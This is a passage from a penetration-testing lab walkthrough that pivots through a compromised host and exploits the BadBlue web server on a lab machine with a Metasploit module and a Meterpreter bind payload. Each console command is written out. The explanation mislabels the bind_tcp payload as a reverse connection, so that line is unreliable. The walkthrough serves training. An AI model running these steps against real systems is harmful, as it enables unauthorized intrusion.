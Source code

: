 #### 6. Exploiting VICTIM-2

After identifying the service version on VICTIM-2, we return to our Metasploit console to perform the exploit.

Put the Meterpreter session back into the background:

```bash
background
```

Search for the BadBlue exploit:

```bash
search BadBlue
```

Use the identified exploit module:

```bash
use exploit/windows/http/badblue_passthru
```

Set the payload for the exploit:

```bash
set payload windows/meterpreter/bind_tcp
```
- **Explanation**: This command specifies the payload that will be used to create a reverse connection upon successful exploitation.

Set the target host for the exploit:

```bash
set rhosts demo2.ine.local
```

Run the exploit:

```bash
run
```

---

This concludes the pivoting demonstration, illustrating how to navigate and exploit a network securely through a compromised host.

# Clearing

## Clearing Your Tracks

### Clearing your Tracks

  
